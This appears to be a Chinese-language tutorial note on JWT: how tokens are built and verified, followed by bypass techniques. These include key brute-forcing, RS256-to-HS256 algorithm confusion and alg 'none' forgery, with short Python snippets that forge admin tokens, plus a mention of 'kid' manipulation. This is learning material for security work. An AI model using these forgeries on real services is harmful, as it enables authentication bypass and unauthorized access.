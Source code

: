 # JWT 绕过

## JWT 是什么 
Json web token (JWT), 是为了在网络应用环境间传递声明而执行的一种基于JSON的开放标准（(RFC 7519).该token被设计为紧凑且安全的，特别适用于分布式站点的单点登录（SSO）场景。JWT的声明一般被用来在身份提供者和服务提供者间传递被认证的用户身份信息，以便于从资源服务器获取资源，也可以增加一些额外的其它业务逻辑所必须的声明信息，该token也可直接被用于认证，也可被加密。 

## 为什么要用 JWT

进行身份认证。

基于token的鉴权机制类似于http协议也是无状态的，它不需要在服务端去保留用户的认证信息或者会话信息。这就意味着基于token认证机制的应用不需要去考虑用户在哪一台服务器登录了，这就为应用的扩展提供了便利。

## JWT 怎么生成

jwt便是一种基于token的认证方法，一个jwt字符串包括以下三个部分:头部(header)，载荷(payload)，签名(signature)

1. 头部(header) 用于描述JWT的最基本的信息，其所用的签名与算法类似这样
```json
{
"typ": "JWT",
"alg": "HS256"
}
```

2. 载荷(payload) 也是json形式的，官方定义的有如下六个部分

```json
{
"sub": "1", //该JWT所面向的用户
"iss": "http://localhost:8000/auth/login", //该JWT的签发者 
"iat": , //iat(issued at): 在什么时候签发的token
"exp": , //exp(expires): token什么时候过期
"nbf": , //nbf(not before)：token在此时间之前不能被接收处理
"jti": "" //JWT ID为web token提供唯一标识
}
```

当然，我们在具体使用时可以不需要这么多部分，可以定义自己需要的数据，如admin:false之类。

3. 签名(signature) 签名这里我们需要传入一个私钥(key),具体生成方法如下：

```py
# 定义私有密钥
key = 'secretkey'

# header和payload拼接生成令牌
unsignedToken = encodeBase64(header) + '.' + encodeBase64(payload)

#生成签名
signature = HMAC-SHA256(key, unsignedToken)
```

4. 最终生成jwt数据 当我们分别生成了头部，载荷，签名之后，我们就可以生成最终数据了。

```py
#最后拼接生成JWT
JWT = encodeBase64(header) + '.' + encodeBase64(payload) + '.' + encodeBase64(signature)

#最后生成的JWT大概就长这个样子:
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.cAOIAifu3fykvhkHpbuhbvtH807-Z2rI1FS3vX1XMjE
```

5. jwt的验证 服务器应用在接受到JWT后，会首先对头部和载荷的内容用同一算法再次签名。如果服务器应用对头部和载荷再次以同样方法签名之后发现，自己计算出来的签名和接受到的签名不一样，那么就说明这个Token的内容被别人动过的，我们应该拒绝这个Token。

---


## Bypass JWT

> 以下方法在实际应用破解中未生效，但还是可以浅看一下。

- 工具
   - [jwt.io](https://jwt.io/)
   - python jwt 库

### 暴力破解

当key的安全性不高时，容易被人爆破攻击。
jwt破解工具 
- [jwt_tool](https://github.com/ticarpi/jwt_tool)

### 修改算法攻击

将非对称加密算法改为对称加密算法

算法HS256使用秘密密钥对每条消息进行签名和验证。
算法RS256使用私钥对消息进行签名，并使用公钥进行验证。

如果将算法从RS256更改为HS256，后端代码会使用公钥作为秘密密钥，然后使用HS256算法验证签名。
如果我们可以获取到公钥，那么我们就可以通过将算法从RS256修改为HS256，然后使用RSA公钥对数据进行签名，后端代码会使用RSA公钥+HS256算法进行签名验证。从而达到了绕过的效果。

```py
import jwt
public = open('public.pem', 'r').read()
print jwt.encode({"user": "admin"}, key=public, algorithm='HS256')
```

### 修改算法为NONE

签名算法保证了JWT在传输的过程中不被恶意用户修改,但是header中的alg字段可被修改为none。

一些JWT库支持none算法，即没有签名算法，当alg为none时后端不会进行签名校验，将alg修改为none后，去掉JWT中的signature数据（仅剩header + ‘.’ + payload + ‘.’）然后提交到服务端即可。
当然，这种只适用于低版本的JWT库，高版本的JWT库一般都不支持这种算法。

```py
import jwt

print(jwt.encode(payload={
  "iss": "https://demo.sjoerdlangkemper.nl/",
  "iat": 1668824202,
  "exp": 1668825402,
  "data": {
    "hello": "world"
  }
},
algorithm=None,
headers={
  "typ": "JWT",
  "alg": "none"
},
key=None
))
```


### 密钥可控攻击

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJzaGEyNTYiLCJraWQiOiI4MjAxIn0.eyJuYW1lIjoiYWRtaW4yMzMzIn0.aC0DlfB3pbeIqAQ18PaaTOPA5PSipJe651w7E0BZZRI
```

解码之后的头部是
```json
{
  "typ": "JWT",
  "alg": "sha256",
  "kid": "8201"
}
```

修改 kid 为任意值，在下面的签名中修改即可

## 参考资料

- https://www.v0n.top/2019/11/01/%E6%B5%85%E8%B0%88JWT%E7%BB%95%E8%BF%87/